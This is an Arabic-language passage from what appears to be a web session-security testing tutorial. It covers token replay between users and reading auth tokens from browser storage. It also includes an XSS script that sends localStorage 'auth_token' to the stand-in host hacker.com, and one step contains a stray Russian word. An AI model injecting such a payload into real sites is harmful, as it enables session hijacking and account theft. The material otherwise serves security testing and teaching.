 ### 📌 الخطوات:

#### 1. استخرج توكن من مستخدم A.
#### 2. استخدم هذا التوكن في طلب باسم مستخدم B.
#### 3. إن نجح الطلب = ثغرة في إدارة الجلسات.




---

### 🔹 5. **LocalStorage & sessionStorage (JavaScript Storage)**
في التطبيقات Single Page Applications (SPA)، يُستخدم هذا النوع من التخزين.
## 🛠️ المحاولة #13: استخدام Chrome DevTools للوصول إلى الذاكرة

### 🔍 الهدف:
قراءة التوكن من LocalStorage أو SessionStorage.

### 📌 الخطوات:

#### 1. افتح DevTools (F12).
#### 2. اذهب إلى:
> Application tab → Storage → localStorage/sessionStorage

#### 3. ابحث عن keys مثل:
```text
auth_token, userToken, session
```



## 🛠️ المحاولة #14: سرقة القيمة عبر XSS

### 🔍 الهدف:
استغلال ثغرة XSS لسحب التوكن.

### 📌 الخطوات:

#### 1. внедر سكريبت XSS في أحد الصفحات:
```javascript
<script>
fetch('https://hacker.com/token?='+localStorage.getItem('auth_token'));
</script>
```

#### 2. إذا تم تنفيذه → سيصل التوكن للهاكر.


